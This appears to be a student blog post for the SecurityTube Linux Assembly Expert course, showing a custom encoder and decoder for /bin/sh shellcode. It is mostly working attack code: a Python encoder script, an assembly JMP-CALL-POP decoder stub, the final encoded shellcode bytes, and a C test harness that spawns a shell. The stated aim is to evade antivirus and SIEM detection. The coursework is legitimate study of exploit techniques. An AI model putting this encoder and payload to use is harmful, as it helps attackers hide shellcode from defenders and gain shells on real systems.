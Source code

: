 **Assignment 4**

Shellcode for Custom encoder and decoder for bin/sh shellcode

**Introduction**

	A shellcode encoder is used to modify an existing shellcode to make it harder to detect by AV engines / SIEM tools 

	The encoder itself doesn’t provide any real security however since the obfuscation scheme is built into the code and is therefore reversible by anyone who has access to the encoded shellcode. This should not be confused with encryption, where security is based on the key and not the secrecy of the encryption scheme


**Methadology**

	Following is the Encoding schema being used in the order

		Each byte of the /bin/sh shellcode is decremented by 1
		NOT operation on each bytes
		Each byte is Xor ed with 0xbb


	This Encoded payload is generated using a python script

	The Decoding schema being used in the order
		Each byte is Xor ed with 0xbb
		NOT operation on each bytes
		Each byte is incremented by 1




	EncoderScript.py	

	Following script takes the shellcode and perform the above mentioned encoding operation for each byte.

		#!/bin/python3

		import socket
		import sys

		sc_original = (b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
									#/bin/sh shellcode
									#shellcode is considered as a byte array
		enc = ""
		enc2= ""

		for c in bytearray(sc_original):
        	 a = c - 0x01            	#each byte is decremented by 1
        	 b = ~a                  	#NOT operation
        	 c = b^0xBB              	#XOR operation on each byte 
        								#based on premise A XOR B = C , C XOR B = A
        	 enc+= '\\x'
        	 enc+= "%02x" %(c & 0xff)

       	 	 enc2+= "0x"
        	 enc2+= "%02x," %(c & 0xff)


		print("Encoded Payload:  ")
		print("----------------------")

		s2 = enc2.rstrip(',')
		print(s2)


		toor@ubuntu:~/Desktop/slae/Assignments/4$ python3 encodecreaterpy3.py
		Encoded Payload:
		----------------------
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b
		toor@ubuntu:~/Desktop/slae/Assignments/4$


	We have the encoded payload now 
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b

	a 0xbb is appended to the encoded shellcode to make the program easier ie appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload. Now the payload would be .

	Its worth mentioning that A XOR A = 0 , so when you perform an xor operation make sure that the operator byte is not in the encoded payload
	
	Final Payload would be,
		0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb

	Now ,we write a assembly program to decode this encoded shellcode 

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat damn.asm
		global _start

		section .text

		_start:

        		jmp short step_1
		step_2:
        		pop edi

		decoder:

        		cmp byte [edi],0xbb
        		jz shellcode

        		xor byte [edi],0xbb  ;xor with bb
        		not byte [edi]       ;not operation
        		inc byte [edi]       ;inc byte

        		inc edi
        		jmp short decoder


		step_1:
        		call step_2
        	shellcode: db 0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$


	Program starts with a jmp to step_1  and then a call to step_2
	The decoder uses the JMP CALL POP technique to push the address of the encoded shellcode on the stack. so when the call instruction is executed the address of the next instruction is put on to the stack on the premise that once the function is over ,the control is given back to the next instruction

	So the Address of the variable shellcode is put onto the stack and is poped on to edi

	Appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload . A comparison operator is used here to check whether rhe operation is complete

	Each byte of "shellcode" will be undergoing decoder process ie

								xor with 0xbb
								not operation
								increment 
   	Once the process is over control is given to the shellcode address ,where the /bin/sh decoded shellcode is .


**Practical**

Extracting shellcode
	
	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ objdump -d ./damn|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb"
	
	The shellcode is copied onto a shellcode test c wrapper program t give control to the shellcode

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat shellcodetest.c
		#include<stdio.h>
		#include<string.h>

		char code[] = 	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb";

		int main(void)
		{
        	printf("shellcode length: %d\n",strlen(code));
        	(*(void(*)()) code)();
		}


		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ nano shellcodetest.c
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ gcc -fno-stack-protector -z execstack shellcodetest.c -o shellcode
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ ./shellcode
		shellcode length: 49
		$ id
		uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	Works like a charm!

**Github Repository**

	This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
